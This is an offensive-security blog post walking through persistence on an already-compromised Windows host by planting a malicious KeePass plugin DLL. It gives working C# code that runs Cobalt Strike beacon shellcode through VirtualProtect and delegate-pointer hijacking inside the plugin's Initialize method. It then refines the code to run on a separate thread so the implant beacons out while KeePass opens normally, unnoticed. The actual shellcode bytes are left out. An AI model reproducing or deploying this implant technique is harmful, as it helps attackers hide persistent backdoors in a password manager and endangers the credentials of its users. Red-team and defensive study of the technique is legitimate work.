









In this post we are going to look at a method of gaining persistence using KeePass. This approach requires permissions to write to wherever KeePass is installed, which is usually the Program Files directory (so local admin privs required). In part 2, we’ll look at a method which doesn’t have this restriction, but for now, lets get started. To follow along, you’ll need Visual Studio (or some other way to build .NET code), KeePass and a copy of the KeePass source code from https://keepass.info/download.html. You will also need the portable version of KeePass downloaded. KeePass supports plugins which allow users to expand the default functionality. You can find a list of publicly available ones on their website. KeePass is a .NET app, so there’s a good chance it’s using reflection to load its plugins. With the KeePass solution open in Visual Studio, searching for “reflection” soon confirms this suspicion. PluginManager.cs is referencing System.Reflection (as are a few other classes). Digging around in that class brings us to the CreatePluginInstance method: 123456789101112131415161718private static Plugin CreatePluginInstance(string strFilePath,string strTypeName){ Debug.Assert(strFilePath != null); if(strFilePath == null) throw new ArgumentNullException("strFilePath"); string strType; if(string.IsNullOrEmpty(strTypeName)) { strType = UrlUtil.GetFileName(strFilePath); strType = UrlUtil.StripExtension(strType) + "." + UrlUtil.StripExtension(strType) + "Ext"; } else strType = strTypeName + "." + strTypeName + "Ext"; ObjectHandle oh = Activator.CreateInstanceFrom(strFilePath, strType); Plugin plugin = (oh.Unwrap() as Plugin); if(plugin == null) throw new FileLoadException(); return plugin;} This code ends up calling Activator.CreateInstanceFrom on a file path and creating a new Plugin object. We can confirm this by installing a plugin, placing a breakpoint on the Debug.Assert call and stepping through the code. It’s worth pointing out that running the app in debug mode means it wont read plugins from the standard directory, you can install one by clicking the “plugins” option under the tools menu and selecting “Open Folder”.  For this post, I’m using plugins with a .dll extension. Newer versions of KeePass also support PLGX files, which are compiled by KeePass itself, rather than being shipped as .dlls. We’ll take a look at these in a later post. For the next step I’m using DB_Backup for KeePass version 1.x. This is going to throw an error, but that doesn’t matter. You’ll need to re-run KeePass once you copy the plugin, as changes are picked up on load. With our breakpoint hit, we can see the strFilePath values is set to the path to our plugin DLL.  Stepping over the code we eventually land on the call to Activator.CreateInstance().  Letting this run will give us an error saying that this plugin isn’t compatible with KeePass 2 .x. That’s fine. We just wanted to see that our supplied .dll was being passed to Activator.CreateInstance(). Let’s start building our own plugin. The KeePass website provides the documentation we need to get started. There are a couple of important points: The namespace must match the dll name (minus the extension) The main class name must match the file name, with “Ext” appended The main class must inherit from KeePass.Plugins.Plugin Modify the Assembly Information to be “KeePass Plugin” With that in mind, lets start building our own plugin. In Visual Studio, create a new Class Library project using the .NET framework, giving it an appropriate name (I’m using “KeePassPersistence”). Next we need to rename the class to, in my case, KeePassPersistenceExt and reference the portable version of KeePass. We can also add the minimal plugin code from the KeePass website. You should end up with something resembling the following:  We need to change the Assembly Information, which can be found under Properties -> Application -> Assembly Information and set the Product value to “KeePass Plugin”.  Lets build the solution and check our plugin works. We can use the plugins directory in the main KeePass installation folder from now on, which should be “C:\Program Files (x86)\KeePass Password Safe 2\Plugins”. Now if we run KeePass and look at the plugins menu, we should see our plugin listed.  We now have a template that we can modify to run our code. Let’s change our code to execute a Cobalt Strike beacon. We can copy a template from Inception and drop in our CS shellcode. The beacon shellcode is generated via the Attacks -> Packages -> Payload Generator menu. Out plugin class should now look something like this (I’ve removed the shellcode bytes to keep the size down): 123456789101112131415161718192021222324252627282930313233343536373839using KeePass.Plugins;using System;using System.Reflection;using System.Runtime.InteropServices;namespace KeePassPersistence{ public class KeePassPersistenceExt : Plugin { public override bool Initialize(IPluginHost host) { Run(); return true; }[DllImport("kernel32.dll", SetLastError = true)] static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect); public delegate uint Ret1ArgDelegate(uint address); static uint PlaceHolder1(uint arg1) { return 0; } public static byte[] asmBytes = new byte[890] { <shellcode>};public unsafe void Run() { fixed (byte* startAddress = &asmBytes[0]) // Take the address of our x86 code { // Get the FieldInfo for "_methodPtr" Type delType = typeof(Delegate); FieldInfo _methodPtr = delType.GetField("_methodPtr", BindingFlags.NonPublic | BindingFlags.Instance); // Set our delegate to our x86 code Ret1ArgDelegate del = new Ret1ArgDelegate(PlaceHolder1); _methodPtr.SetValue(del, (IntPtr)startAddress); //Disable protection uint outOldProtection; VirtualProtect((IntPtr)startAddress, (uint)asmBytes.Length, 0x40, out outOldProtection); // Enjoy uint n = (uint)0x00000001; n = del(n); } } }} As we are using the unsafe keyword, we have to change the build properties of the project to allow unsafe code. With that change made, we can build our DLL and try it out. Dropping the DLL into the plugins directory and launching KeePass should result in a beacon callback.  You might notice that KeePass doesn’t launch. That’s because we hijacked the plugins initialize method, which is called before the KeePass UI renders. Our shellcode doesn’t return control to the calling method, so KeePass never loads. We have persistence, but the user is going to notice something isn’t right. Luckily, fixing this is straight forward, we just need to run our payload on a new thread. We can add a using statement for System.Threading and change the Initialize method as follows: 123456public override bool Initialize(IPluginHost host){ Thread thread = new Thread(Run); thread.Start(); return true;} Now when we run KeePass we get our beacon callback and the KeePass UI loads as normal. Just to show this is actually working, we can pop a message box from our beacon:  Which is displayed over the KeePass UI.  We now have a working persistence method using KeePass plugins. It’s worth pointing out that this isn’t as great as it seems. We need local admin permissions to write the plugin file and then we get a session back as a standard user. There are much better ways to maintain persistence. In part two of this series we’ll look at a method which doesn’t need local admin. Finally, I want to stress that this isn’t a vulnerability in KeePass. KeePass are aware of the risks associated with malicious plugins, and have a section addressing them on their website. This is just another way for an attacker to gain persistent access to an already compromised host. ← Previous Post Next Post→